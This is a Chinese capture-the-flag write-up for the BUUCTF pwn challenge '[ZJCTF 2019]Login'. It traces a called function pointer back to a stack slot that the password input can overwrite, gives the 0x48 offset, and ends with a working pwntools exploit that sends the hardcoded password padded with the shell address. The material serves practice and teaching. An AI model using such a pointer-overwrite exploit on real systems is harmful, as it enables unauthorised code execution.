# [CTF] [栈溢出+参数跟踪] [ZJCTF 2019]Login

原帖：[https://www.52pojie.cn/forum.php?mod=viewthread&tid=1825021](https://www.52pojie.cn/forum.php?mod=viewthread&tid=1825021)

抓取时间：2026-11-01T22:47:53

## 题目来源

buuctf——[ZJCTF 2019]Login

本题主要考察参数溯源的能力。

## 参考链接

[https://zhuanlan.zhihu.com/p/570607303](https://zhuanlan.zhihu.com/p/570607303)

## 题目信息

64位，ubuntu16，开了金丝雀



`1.png`（31.45 KB，下载次数: 2）｜[附件下载](https://www.52pojie.cn/forum.php?mod=attachment&aid=MjYzODM4NHwxYWM2NWI5NHwxNzkzNTczMjcxfDE2ODA4NnwxODI1MDIx&nothumb=yes)｜2023-8-24 11:23 上传

C++风格的代码，并且将`admin`登录信息写入代码中。



`2图.png`（123.17 KB，下载次数: 2）｜[附件下载](https://www.52pojie.cn/forum.php?mod=attachment&aid=MjYzODM4NXxiMDk2YWQ3NHwxNzkzNTczMjcxfDE2ODA4NnwxODI1MDIx&nothumb=yes)｜2023-8-24 11:23 上传

溢出点不在这里，但是`(**a1)();`说明程序将执行参数中的内容。想要利用这里需要通过`admin`验证。



`31截图.png`（55.22 KB，下载次数: 0）｜[附件下载](https://www.52pojie.cn/forum.php?mod=attachment&aid=MjYzODM5NHxjZDBiNmUwNHwxNzkzNTczMjcxfDE2ODA4NnwxODI1MDIx&nothumb=yes)｜2023-8-24 11:24 上传

对应的汇编语言，执行了`[[rax]]`，且说明至少有两个`lea`指令。



`4截图.png`（29.63 KB，下载次数: 2）｜[附件下载](https://www.52pojie.cn/forum.php?mod=attachment&aid=MjYzODM4NnxmMDc5ZjdjZXwxNzkzNTczMjcxfDE2ODA4NnwxODI1MDIx&nothumb=yes)｜2023-8-24 11:23 上传

给出了`shell`的利用点。



`5截图.png`（17.07 KB，下载次数: 1）｜[附件下载](https://www.52pojie.cn/forum.php?mod=attachment&aid=MjYzODM4N3xkMGFjNWE1YXwxNzkzNTczMjcxfDE2ODA4NnwxODI1MDIx&nothumb=yes)｜2023-8-24 11:23 上传

## 解题步骤

回溯`rax`的赋值步骤，找到可以覆盖现`rax`值的地址，输入正确`admin`信息并将`shell`地址写入该地址即可。

## 关键步骤

### 回溯 `rax`



`6截图.png`（71.41 KB，下载次数: 2）｜[附件下载](https://www.52pojie.cn/forum.php?mod=attachment&aid=MjYzODM4OHwwOTRhYmI3Y3wxNzkzNTczMjcxfDE2ODA4NnwxODI1MDIx&nothumb=yes)｜2023-8-24 11:23 上传

### 回到父函数中



`7截图.png`（53.85 KB，下载次数: 1）｜[附件下载](https://www.52pojie.cn/forum.php?mod=attachment&aid=MjYzODM4OXw1ZTUxM2U0OHwxNzkzNTczMjcxfDE2ODA4NnwxODI1MDIx&nothumb=yes)｜2023-8-24 11:23 上传

### 进入 `password_checker` 中



`8截图.png`（18.34 KB，下载次数: 2）｜[附件下载](https://www.52pojie.cn/forum.php?mod=attachment&aid=MjYzODM5MHxiYTcwYjZkYnwxNzkzNTczMjcxfDE2ODA4NnwxODI1MDIx&nothumb=yes)｜2023-8-24 11:23 上传

`password_checker`与`read_password`中间没有修改`rax`的值，且同为相同父函数的子函数，`rbp`相同(可以自己动态调试试试)，因此`[rbp+var_18]`相同。



`9截图.png`（24.39 KB，下载次数: 3）｜[附件下载](https://www.52pojie.cn/forum.php?mod=attachment&aid=MjYzODM5MXw5Y2UxYjY1OXwxNzkzNTczMjcxfDE2ODA4NnwxODI1MDIx&nothumb=yes)｜2023-8-24 11:23 上传

`fgets`虽然没有溢出，但是也可以覆盖到`[rbp+var_18]`



`10截图.png`（101.52 KB，下载次数: 1）｜[附件下载](https://www.52pojie.cn/forum.php?mod=attachment&aid=MjYzODM5MnwwNWQ0ZmZiOXwxNzkzNTczMjcxfDE2ODA4NnwxODI1MDIx&nothumb=yes)｜2023-8-24 11:23 上传

相差`0x48`个字节，所以得到了输入密码时的偏移位置。



`11截图.png`（34.36 KB，下载次数: 1）｜[附件下载](https://www.52pojie.cn/forum.php?mod=attachment&aid=MjYzODM5M3xmOWY0NTFhN3wxNzkzNTczMjcxfDE2ODA4NnwxODI1MDIx&nothumb=yes)｜2023-8-24 11:23 上传

## wp

Python 代码：

```
# -*- coding: utf-8 -*-
from pwn import*
from struct import pack
context.log_level='debug'
context.arch='amd64'
context.os = "linux"

pc = "./login"

if __name__ == '__main__':
    local = sys.argv[1]
    if local == '1':
        r= process(pc)
        elf = ELF(pc)
        libc = elf.libc
    else:
        r=remote("node4.buuoj.cn",28905)
        elf = ELF(pc)
        libc = elf.libc

sa = lambda s,n : r.sendafter(s,n)
sla = lambda s,n : r.sendlineafter(s,n)
sl = lambda s : r.sendline(s)
sd = lambda s : r.send(s)
rc = lambda n : r.recv(n)
ru = lambda s : r.recvuntil(s)
ti = lambda: r.interactive()
lg = lambda s: log.info('\033[1;31;40m %s --> 0x%x \033[0m' % (s, eval(s)))

shell = 0x400E88
payload = (b'2jctf_pa5sw0rd').ljust(0x48,b'\x00') + p64(shell)
sla("Please enter username:",b"admin")
sla("Please enter password:",payload)

ti()

```
